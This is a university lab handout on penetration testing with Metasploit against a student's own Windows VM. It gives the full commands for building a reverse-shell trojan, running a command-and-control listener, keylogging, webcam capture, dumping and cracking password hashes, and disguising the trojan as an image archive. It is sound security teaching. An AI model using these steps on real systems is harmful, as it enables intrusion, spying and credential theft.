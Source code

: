 # its250
Online resources and examples

## Lab07: Penetration test

### 1. Description
Install Metasploit framework on Ubuntu then launch it from Ubuntu, carry out a cyber attack on the Windows server VM to get ultimate control.

**Prerequisite**

* Both Windows server VM and the Ubuntu VM are used
* Install Metasploit framework on Ubuntu

You may follow this [installation video](https://youtu.be/qKudXchmnWc) to install Metasploit framework on Ubuntu.

1. Install with [Rapid7 installer](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework) on Ubuntu.
   ```bash
   # 0. Update and upgrade Ubuntu
   sudo apt update -y && sudo apt upgrade -y
   # 1. Disable anti-virus software (default)
   # 2. Disable firewalls (default)
   # 3. Install with root priviledges
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall 
   chmod 755 msfinstall
   sudo ./msfinstall
   ```
2. (Optional) Install with [Rapid7 installer](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework) on Windows.
   ```batch
   # 1. Disable anti-virus software (Done in Lab03)
   # 2. Disable firewalls (Done in Lab03)
   # 3. Download metaspoit framework windows installer, then in nstall with Administrator account.
   ```

### 2. Tasks (100%)

*Note: replace VM IPs with yours in these tasks*

1. (5%) Find the IP addresses of your Windows server VM and Ubuntu VM, make sure they can ping each other
2.  (5%) On Ubuntu, create a trojan program with msfvenom
    ```bash
    # Replace the Ubuntu_IP with yours
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=Ubuntu_IP LPORT=12345 -f exe > trojan.exe
    ```
3. (5%) On Ubuntu, host trojon.exe with Python built-in SimpleHTTPServer
   ```bash
   # Run the command below from the folder contains trojan.exe
   sudo python3 -m http.server 80
   ```
4. (10%) On Ubuntu, starting a Command-and-Control (C&C) Server
   ```bash
   # Inside msfconsole, replace the Ubuntu_IP with yours
   use multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST Ubuntu_IP
   set LPORT 12345
   # 1. one-time exploit
   exploit

   # 2. continuous exploit
   set exitonsession false
   exploit -j
   ```
5. (5%) On Windows, open a web browser, download http://Ubuntu_IP/trojan.exe, 
6. (5%) On Windows run trojan.exe and ignore any warnings.
7. (5%) On Ubuntu, if everything works, a meterpreter session should open.
8. (10%) Explore and use the meterpreter shell
9. (10%) Migrate to a different process inside meterpreter
   ```bash
   # show a list of processes
   ps
   # migrate to winlogon process
   migrate -N explorer.exe
   # migration is unreliabe. If it failed, restart Windows VM, repeat step 6-9 until succeed.
   ```
10. (20%, each 4%) Post-exploitation. Now the Windows VM is under control. Play with the following meterpreter commands.
   ```bash
   # 1. take a screenshot of the victim's desktop
   screenshot
   # 2. capture key strokes
   # 2.1 start capturing key stroke in the victim machine
   keyscan_start
   # 2.2 On the victim machine, open notepad and type something
   # 2.3 Inside meterpreter, dump the captured key strokes
   keyscan_dump
   # 3. (Optional) Take a phone with the webcam
   webcam_snap
   # 4. Get a Windows command prompt on the victim machine
   shell
   # exit the windows command prompt above
   exit
   # 5. Check network connections on the victim machine from meterpreter
   netstat
   ```
11. (20%) Cracking and changing Windows password.
    1. (10%) Dump the hash values of all saved passwords of all windows users, then crack with John the Ripper.
    ```bash
    # Inside meterpreter
    # 1. Check the priviledge that meterpreter is currently in
    getuid
    # 2. Escalate priviledge
    use priv
    getsystem
    getuid
    # 3. dump the hashes
    hashdump # save the result in a text file
    # 4. crack the hashes
    john --wordlist=pass_dict.txt --format=NT hashes.txt
    ```
    2. (10%) Change Windows users' password. Use a user found above, replace oldpass and newpass with yours
    ```bash
    # Inside msf
    msf > use post/windows/manage/change_password
    msf post(change_password) > set smbuser user_name
    msf post(change_password) > set old_password oldpass
    msf post(change_password) > set new_password newpass
    msf post(change_password) > set session 1
    msf post(change_password) > exploit
    ```

### 3. Review questions (Optional)
1. Hide trojan.exe in a self-extract archive.
   1. Download an image as a cover image.
   2. With WinRAR, create a self-extract archive of the cover image and trojan.exe
   3. Configure run after extraction to be: trojan.exe then the cover image.
   4. Download another harmless-look image, convert it into an icon on [icoconvert](https://icoconvert.com/), then use this icon as the icon of the self-extract archive.
2. Use Metasploit Framework GUI - Armitage
   1. Install Java JDK
      ```bash
      sudo apt install  default-jdk
      ```
   2. Download [Armitage](http://www.fastandeasyhacking.com) and extract it.
   3. Init Metasploit Framework database and load the MSGRPC Plugin
      ```bash
      msfdb reinit
      msfconsole
      msf > load msgrpc # note down the user name and password used for armitage
      ```
    4. Run Armitage and connect to the msfrpc running above
      ```bash
      export MSF_DATABASE_CONFIG="/home/$USER/.msf4/database.yml"
      ./armitage
      ```
    5. Enjoy Armitage

**Demo video**

* [Lab07: Penetration test](https://youtu.be/DiGyw79HhlM)

## Reference
* [Running a simple HTTP web server with one terminal command and python](https://linuxconfig.org/running-a-simple-http-web-server-with-one-terminal-command-and-python)
  * [Share Files Using Lightweight Http Servers in Linux](https://linuxhint.com/share_files_lightweight_http_server/)
* [Metasploit](https://docs.rapid7.com/metasploit/quick-start-guide)
  * [Installing Metasploit](https://docs.rapid7.com/metasploit/installing-metasploit-pro)
  * [Restarting Metasploit Services](https://docs.rapid7.com/metasploit/restarting-metasploit-services)
  * [Uninstalling Metasploit](https://docs.rapid7.com/metasploit/uninstalling-metasploit)
* [Installing Metasploit Penetration Testing Framework](https://fedoraproject.org/wiki/Metasploit_Penetration_Testing_Framework)
  * [Metasploit Postgres Setup](https://fedoraproject.org/wiki/Metasploit_Postgres_Setup)
* [Metasploit Framework](https://docs.rapid7.com/metasploit/msf-overview)
* [Creating Infectious Media with Metasploit](https://samsclass.info/123/proj10/p4msf.htm)
* [Offensive Msfvenom: From Generating Shellcode to Creating Trojans](https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)
  * [Hide Payloads Behind Images](https://medium.com/@chamo.wijetunga/hide-payloads-behind-images-and-hacking-windows-fb82cf2f0e7c)
    * [7z examples](https://www.dotnetperls.com/7-zip-examples)
  * [Create malicious PDF](https://fareedfauzi.github.io/blog-post/Create-malicious-pdf/)
  * [How to Embed (Hide) a Backdoor into a File (pdf, exe, etc...)](http://dan3lmi.blogspot.com/2019/01/how-to-embed-hide-backdoor-into-file.html)
* [Lab: Hacking an Android Device with MSFvenom](https://resources.infosecinstitute.com/topic/lab-hacking-an-android-device-with-msfvenom/)
* [Autorun.inf Maker](http://www.ashzfall.com/products/autorun/index.html)
  * [How do I test autorun.inf files without wasting CD's?](http://www.ashzfall.com/products/autorun/autorunfloppy.html)
  * [How to Auto-Run Windows Programs When You Plug In a USB Drive](https://www.howtogeek.com/326049/how-to-auto-run-windows-programs-when-you-plug-in-a-usb-drive/)
* [meterpreter basics](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
  * [Quick Meterpreter and Metasploit tutorial - Stealing hashes and passwords, Keyloggers, Webcams and other post-exploitation modules](http://www.ethicalpentest.com/2018/03/meterpreter-metasploit-tutorial-part2.html)
  * [Post Exploitation for Remote Windows Password](https://www.hackingarticles.in/post-exploitation-remote-windows-password/)
  * [Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
  * [Cracking Windows Password Hashes with Hashcat](https://samsclass.info/123/proj14/123p12winhash.htm)
  * [Meterpreter basics practice](https://www.utc.edu/center-academic-excellence-cyber-defense/pdfs/4660-lab6.pdf)
  * [Armitage](http://www.fastandeasyhacking.com)
    * [source](https://github.com/rsmudge/armitage)